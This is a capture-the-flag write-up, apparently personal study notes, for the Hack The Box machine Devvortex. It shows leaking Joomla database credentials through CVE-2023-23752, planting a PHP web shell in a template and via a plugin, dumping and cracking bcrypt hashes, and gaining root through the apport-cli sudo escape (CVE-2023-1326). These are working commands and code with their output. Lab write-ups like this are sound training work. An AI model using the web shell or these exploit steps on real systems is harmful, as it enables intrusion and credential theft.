




---
tags:
  - CVE-2023-23752
  - joomla
  - CVE-2023-1326
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Devvortex
- Reference : https://0xdf.gitlab.io/2024/04/27/htb-devvortex.html
- Solved : 2024.1.2. (Thu) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Discovered ports 22 (SSH) and 80 (HTTP) open on the target.
    - **Domain**: Identified the domain `devvortex.htb`.
    - **Web Service Enumeration**:
        - Found Joomla CMS version 4.2.6 via `/administrator/manifests/files/joomla.xml`.
        
2. **Web Exploitation**
    - **robots.txt**: Revealed Joomla directories.
    - **Vulnerability Exploitation**: Exploited `CVE-2023-23752` to extract credentials (`lewis:P4ntherg0t1n5r3c0n##`) from the API endpoint `/api/index.php/v1/config/application?public=true`.
    - **Admin Access**: Used the credentials to log in to the Joomla admin panel.
    
3. **Privilege Escalation to `www-data`**
    - **Template Modification**:
        - Edited the `error.php` template to insert a web shell.
        - Accessed the shell via crafted HTTP requests.
    - **Plugin Exploitation**:
        - Uploaded a malicious Joomla plugin to gain a web shell.
        
4. **Privilege Escalation to `logan`**
    - **Database Extraction**:
        - Retrieved password hashes from the `sd4fg_users` table in the Joomla database.
    - **Hash Cracking**:
        - Cracked `logan`'s bcrypt hash using `hashcat`.
        - Logged in via SSH with `logan:tequieromucho`.
    
5. **Privilege Escalation to `root`**
    - **Sudo Misconfiguration**:
        - Discovered `logan` could execute `/usr/bin/apport-cli` as `root`.
    - **Exploit `apport-cli` (CVE-2023-1326)**:
        - Exploited `apport-cli` to spawn a root shell.

---
### Key Techniques:

- **Enumeration**: Leveraged web directories, database credentials, and password hashes.
- **Joomla Exploitation**: Used both admin panel access and web shells for initial foothold.
- **Credential Abuse**: Cracked bcrypt hashes to escalate privileges.
- **Sudo Exploitation**: Misconfigured `sudo` permissions on `apport-cli` facilitated root access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.242
Performing quick port scan on 10.10.11.242...
Found open ports: 22,80
Performing detailed scan on 10.10.11.242...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-01 12:24 EST
Nmap scan report for 10.10.11.242
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.92 seconds
```

- Only 2 ports are open : ssh(22), http(80)
- The domain seems to be `devvortex.htb`.

### http(80)


```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://devvortex.htb
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.242
+ Target Hostname:    devvortex.htb
+ Target Port:        80
+ Start Time:         2025-01-01 12:35:34 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 7964 requests: 2 error(s) and 4 item(s) reported on remote host
+ End Time:           2025-01-01 12:54:08 (GMT-5) (1114 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://devvortex.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://devvortex.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://devvortex.htb/images/]
/css                  (Status: 301) [Size: 178] [--> http://devvortex.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://devvortex.htb/js/]
```

`nikto`, `gobuster` were all not successful though.
Since we don't have any other port, let's investigate more with `ffuf`.

First, let's try finding if there's any subdomain.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -ic -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.devvortex.htb -s 
```

Nothing's found.
Then, let's try finding vHost.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -ic -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://devvortex.htb -H 'Host: FUZZ.devvortex.htb' -fs 154 -s
dev
```

It found `dev.devvortex.htb`! Let's add this to `/etc/hosts`.

### http(80) - dev.devvortex.htb

It takes long to load the main page, so I visited `robots.txt` page first.

```text
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

It seems that the server is running on `joomla`.

In `/administrator/manifests/files/joomla.xml` you could access a list of files inside the root folder, and version of Joomla. 

```xml
<extension type="file" method="upgrade">
<name>files_joomla</name>
<author>Joomla! Project</author>
<authorEmail>admin@joomla.org</authorEmail>
<authorUrl>www.joomla.org</authorUrl>
<copyright>(C) 2019 Open Source Matters, Inc.</copyright>
<license>
GNU General Public License version 2 or later; see LICENSE.txt
</license>
<version>4.2.6</version>
<creationDate>2022-12</creationDate>
<description>FILES_JOOMLA_XML_DESCRIPTION</description>
<scriptfile>administrator/components/com_admin/script.php</scriptfile>
<update>
<schemas>
<schemapath type="mysql">
administrator/components/com_admin/sql/updates/mysql
</schemapath>
<schemapath type="postgresql">
administrator/components/com_admin/sql/updates/postgresql
</schemapath>
</schemas>
</update>
<fileset>
<files>
<folder>administrator</folder>
<folder>api</folder>
<folder>cache</folder>
<folder>cli</folder>
<folder>components</folder>
<folder>images</folder>
<folder>includes</folder>
<folder>language</folder>
<folder>layouts</folder>
<folder>libraries</folder>
<folder>media</folder>
<folder>modules</folder>
<folder>plugins</folder>
<folder>templates</folder>
<folder>tmp</folder>
<file>htaccess.txt</file>
<file>web.config.txt</file>
<file>LICENSE.txt</file>
<file>README.txt</file>
<file>index.php</file>
</files>
</fileset>
<updateservers>
<server name="Joomla! Core" type="collection">https://update.joomla.org/core/list.xml</server>
</updateservers>
</extension>
```

It reveals `joomla`'s version : 4.2.6

From `/plugins/system/cache/cache.xml` you could get an approximate version of Joomla thanks to the copyright information.

```xml
<extension type="plugin" group="system" method="upgrade">
<name>plg_system_cache</name>
<author>Joomla! Project</author>
<creationDate>2007-02</creationDate>
<copyright>(C) 2007 Open Source Matters, Inc.</copyright>
<license>
GNU General Public License version 2 or later; see LICENSE.txt
</license>
<authorEmail>admin@joomla.org</authorEmail>
<authorUrl>www.joomla.org</authorUrl>
<version>3.0.0</version>
<description>PLG_CACHE_XML_DESCRIPTION</description>
<namespace path="src">Joomla\Plugin\System\Cache</namespace>
<files>
<folder plugin="cache">services</folder>
<folder>src</folder>
</files>
<languages>
<language tag="en-GB">language/en-GB/plg_system_cache.ini</language>
<language tag="en-GB">language/en-GB/plg_system_cache.sys.ini</language>
</languages>
<config>
<fields name="params">
<fieldset name="basic">
<field name="browsercache" type="radio" layout="joomla.form.field.radio.switcher" label="PLG_CACHE_FIELD_BROWSERCACHE_LABEL" default="0" filter="integer">
<option value="0">JNO</option>
<option value="1">JYES</option>
</field>
<field name="exclude_menu_items" type="menuitem" label="PLG_CACHE_FIELD_EXCLUDE_MENU_ITEMS_LABEL" multiple="multiple" filter="intarray" layout="joomla.form.field.groupedlist-fancy-select"/>
</fieldset>
<fieldset name="advanced">
<field name="exclude" type="textarea" label="PLG_CACHE_FIELD_EXCLUDE_LABEL" description="PLG_CACHE_FIELD_EXCLUDE_DESC" rows="15" filter="raw"/>
</fieldset>
</fields>
</config>
</extension>
```

Here's an useful reference for penetrating `joomla`.
https://hackertarget.com/attacking-enumerating-joomla/

Let's visit the main page though.



The web page itself doesn't look special, just empty links..

There's a tool `joomscan` which is automating scanning `joomla CMS`.
Let's run this to see if there's anything further.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ joomscan -u http://dev.devvortex.htb

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.6

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://dev.devvortex.htb/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://dev.devvortex.htb/robots.txt 

Interesting path found from robots.txt
http://dev.devvortex.htb/joomla/administrator/
http://dev.devvortex.htb/administrator/
http://dev.devvortex.htb/api/
http://dev.devvortex.htb/bin/
http://dev.devvortex.htb/cache/
http://dev.devvortex.htb/cli/                                               
http://dev.devvortex.htb/components/                                        
http://dev.devvortex.htb/includes/                                          
http://dev.devvortex.htb/installation/                                      
http://dev.devvortex.htb/language/                                          
http://dev.devvortex.htb/layouts/                                           
http://dev.devvortex.htb/libraries/                                         
http://dev.devvortex.htb/logs/                                              
http://dev.devvortex.htb/modules/                                           
http://dev.devvortex.htb/plugins/                                           
http://dev.devvortex.htb/tmp/ 
```


# Credential for `lewis`

### CVE-2023-23752

Let's google if there's any vulnerabilities in the joomla version.
I found that there's an article exploiting CVE-2023-23752:
https://vulncheck.com/blog/joomla-for-rce

This provides several methods to exploit the vulnerbility.

Let' try the first one.
It says `/api/index.php/v1/config/application?public=true` access exposes server credential. Let's try this.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}} 
```

As expected, it reveals the server's credential : `lewis` : `P4ntherg0t1n5r3c0n##`

This is an mysql credential, so that it has no use if we don't have access to mysql service.
Instead, assuming that the user `lewis` is using the same credential at `joomla`, let's try logging-in to the `/administrator` page.


The credential worked! And I was redirected to an admin panel.


# Shell as `www-data`

### joomla admin panel exploit

There are two methodologies are available when we have an access to joomla admin panel.


##### Template Modification

The System option on the left admin panel side bar will open the System Dashboard:


I’ll click on “Site Templates” to open the templates page:


Clicking on the template “Cassoiopeia Details and Files” opens the editor for that template:


Initially I tried to edit `index.php` file, but it was not working since the file is not writable.
Instead, let's edit `error.php` file.


I can load this page by visiting non-existing page.


It works! I can see the message I inserted.
Let's replace it to php web shell.
I added the following on the `error.php` file.

```php
if (isset($_REQUEST['bokchee'])) {
  system($_REQUEST['bokchee']);
  die();
}
```



Then, let's try loading the error page.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://dev.devvortex.htb/notexist?bokchee=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It works! I can run a command through error page.

##### Write a webshell plugin

From the base template of joomla plugin, I can edit it to perform as a webshell.

Here's the template:
https://docs.joomla.org/J4.x:Creating_a_Plugin_for_Joomla
We can start from here to create our own malicious plugin.

But also, we can use the pre-built one.
Here's the implementation of the method:
https://github.com/p0dalirius/Joomla-webshell-plugin
I downloaded the repository, and uploaded the zip file in `dist` directory.

Then, I can run the webshell with the following URL:
`http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id`


I can also use an interactive command shell using `console.py` in the repository.

```bash
┌──(kali㉿kali)-[~/htb/Joomla-webshell-plugin]
└─$ python console.py -t http://dev.devvortex.htb
[webshell]> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[webshell]> whoami
www-data
```


# Shell as `logan`

### Enumeration

Let's see if there's any other user exists.

```bash
[webshell]> ls /home
logan


[webshell]> cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
logan:x:1000:1000:,,,:/home/logan:/bin/bash
```

I think `logan` might be the next user that I need to move on.

### Extract hash from DB

First, let's use the found DB credential on the interactive shell.

```bash
[webshell]> mysql -u lewis -p'P4ntherg0t1n5r3c0n##' -e 'show databases;'
Database
information_schema
joomla
performance_schema


[webshell]> mysql -u lewis -p'P4ntherg0t1n5r3c0n##' -e 'use joomla;show tables;'
Tables_in_joomla
sd4fg_action_log_config
sd4fg_action_logs
sd4fg_action_logs_extensions
sd4fg_action_logs_users
sd4fg_assets
<SNIP>
sd4fg_users
sd4fg_viewlevels
sd4fg_webauthn_credentials
sd4fg_workflow_associations
sd4fg_workflow_stages
sd4fg_workflow_transitions
sd4fg_workflows


[webshell]> mysql -u lewis -p'P4ntherg0t1n5r3c0n##' -e 'use joomla;select username,password from sd4fg_users;'
username        password
lewis   $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan   $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

Here I got `logan`'s password hash.
Based on hash-identifier, it's bcrypt hash.


Let's crack it with `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 3200 logan.bcrypt /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1437/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 byteDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Thu Jan  2 08:56:25 2025 (22 secs)
Time.Estimated...: Thu Jan  2 08:56:47 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       64 H/s (7.70ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1408/14344385 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1392/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: moises -> tagged
Hardware.Mon.#1..: Util: 99%

Started: Thu Jan  2 08:55:58 2025
Stopped: Thu Jan  2 08:56:49 2025
```

The cracked password for `logan` is `tequieromucho`.
Let's open a shell as `logan` through `ssh`.

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ ssh logan@devvortex.htb
The authenticity of host 'devvortex.htb (10.10.11.242)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb' (ED25519) to the list of known hosts.
logan@devvortex.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 02 Jan 2025 02:41:34 PM UTC

  System load:  0.18              Processes:             163
  Usage of /:   63.4% of 4.76GB   Users logged in:       0
  Memory usage: 16%               IPv4 address for eth0: 10.10.11.242
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Feb 26 14:44:38 2024 from 10.10.14.23
logan@devvortex:~$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
```

I got a `logan`'s shell!


# Shell as `root`

### Enumeration

Let's run `linpeas` to automate enumeration process.

```bash
logan@devvortex:~$ ./linpeas_linux_amd64 


╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                         
Sudo version 1.8.31  


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                 


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                        
Matching Defaults entries for logan on devvortex:                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Here I found out that the user `logan` can run `apport_cli` command as `root` user.

### Privilege escalation by exploiting `apport-cli`

Here's the reference to exploit `apport-cli` with `sudo` permission:
https://github.com/n3rdh4x0r/CVE-2023-1326?tab=readme-ov-file

First, let's run the executable with `-f` option :

```
sudo /usr/bin/apport-cli -f
```

Then, select display for the choice :



Then, put `2` on the next input :



Then, we have to put `V` for the next choice :


The last thing I need to do is put the following commands :

```bash
!id
!/bin/bash
```

Then I can open a shell as `root`.

```bash
What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

I got `root` shell!